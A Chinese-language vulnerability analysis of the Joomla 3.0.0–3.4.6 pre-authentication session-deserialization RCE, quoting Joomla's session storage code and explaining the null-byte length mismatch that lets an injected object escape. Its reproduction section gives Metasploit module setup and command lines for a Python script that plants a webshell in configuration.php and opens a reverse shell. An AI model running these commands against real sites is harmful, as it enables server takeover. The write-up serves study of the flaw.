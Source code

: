 # Joomla 3.0.0 - 3.4.6 RCE漏洞  20191002

## 概述

本质上是一个Session 反序列化导致的rce，由于joomla对于session的特殊处理，导致漏洞触发并不需要登陆。因此成了 pre-auth RCE。

https://github.com/joomla/joomla-cms/releases/tag/3.4.6

## 原理

漏洞文件：

\libraries\joomla\session\storage\database.php 中的write 和read:

php对session的存储是默认放在文件中，当有活动会话产生使用到session的时候，将会在服务端php设置好的路径写一个文件，文件的内容为默认序列化处理器序列化后的数据。在joomla中则改变了php的默认处理规则，将序列化之后的数据存放在数据库中，这步操作对应的处理函数为```\libraries\joomla\session\storage\database.php 中的write : ```

	/**
     * Write session data to the SessionHandler backend.
     *
     * @param   string  $id    The session identifier.
     * @param   string  $data  The session data.
     *
     * @return  boolean  True on success, false otherwise.
     *
     * @since   11.1
     */
    public function write($id, $data)
    {
        // Get the database connection object and verify its connected.
        $db = JFactory::getDbo();

        $data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);

        try
        {
            $query = $db->getQuery(true)
                ->update($db->quoteName('#__session'))
                ->set($db->quoteName('data') . ' = ' . $db->quote($data))
                ->set($db->quoteName('time') . ' = ' . $db->quote((int) time()))
                ->where($db->quoteName('session_id') . ' = ' . $db->quote($id));

            // Try to update the session data in the database table.
            $db->setQuery($query);

            if (!$db->execute())
            {
                return false;
            }
            /* Since $db->execute did not throw an exception, so the query was successful.
            Either the data changed, or the data was identical.
            In either case we are done.
            */
            return true;
        }
        catch (Exception $e)
        {
            return false;
        }
    }


取值的时候使用的操作对应的函数是read：

	/**
     * Read the data for a particular session identifier from the SessionHandler backend.
     *
     * @param   string  $id  The session identifier.
     *
     * @return  string  The session data.
     *
     * @since   11.1
     */
    public function read($id)
    {
        // Get the database connection object and verify its connected.
        $db = JFactory::getDbo();

        try
        {
            // Get the session data from the database table.
            $query = $db->getQuery(true)
                ->select($db->quoteName('data'))
            ->from($db->quoteName('#__session'))
            ->where($db->quoteName('session_id') . ' = ' . $db->quote($id));

            $db->setQuery($query);

            $result = (string) $db->loadResult();

            $result = str_replace('\0\0\0', chr(0) . '*' . chr(0), $result);

            return $result;
        }
        catch (Exception $e)
        {
            return false;
        }
    }

在存入数据库之前，会将传入数据中的 ```chr(0) . '*' . chr(0)``` 替换为 ```\0\0\0```，原因是mysql数据库无法处理NULL字节，而protected修饰符的字段在序列化后是以 ```\x00\x2a\x00``` 开头的。 然后从数据库中取出来的时候，再将字符进行替换还原，防止无法正常反序列化。

php的序列化机制：php在序列化数据的过程中，如果序列化的字段是一个字符串，那么将会保留该字符串的长度，然后将长度写入到序列化之后的数据，反序列化的时候按照长度进行读取。读取完成以分号结束，接着开始下一个。

上面的情况，入库的时候是 ```\0\0\0```，出库时变成 ```chr(0) . '*' . chr(0)```,这样的话入库时生成的序列化数据长度 ```6(\0\0\0)```，取出来的时候将会成为 ```3(N*N)```，（N表示NULL），这样在反序列化的时候，如果按照原先的长度读取，就会导致后续的字符被吃掉。如果我们能控制两个字段的值，第一个用来吃掉第一个字段和第二个字段中间的部分，第二个字段用来构造序列化利用的payload，那么执行将会把第一个字段开头的部分到第二个字段开始的位置当成第一个字段的内容，第二个字段内容逃逸出来被反序列化执行。此行为已从3.0.0版本引入，并影响到Joomla，直到3.4.6。从3.4.7开始，该代码段仍然存在，但会话已通过base64编码并存储在数据库中。

## 复现

kali msf

kali下msf 目录 /usr/share/metasploit-framework/modules/exploits/multi/php

	cp metasploit_rusty_joomla_rce.rb /usr/share/metasploit-framework/modules/exploits/multi/php

	msfconsole-->reload_all-->search joomla

![](1.png)

使用报错。

使用py脚本验证。

![](2.png)


上传 webshell (默认路径```http://ip/joomla/configuration.php```)

	python3 a.py -e -t ip


反弹shell (测试没成功)

	python3 a.py -e -t target_ip -l local_ip -p port

![](3.png)


## 参考资料

[Joomla 3.0.0 - 3.4.6 RCE漏洞分析记录](https://www.cnblogs.com/magic-zero/p/11643916.html)

[Rusty Joomla RCE](https://blog.hacktivesecurity.com/index.php?controller=post&action=view&id_post=41)

[Joomla 3.4.6 RCE 分析](https://xz.aliyun.com/t/6522)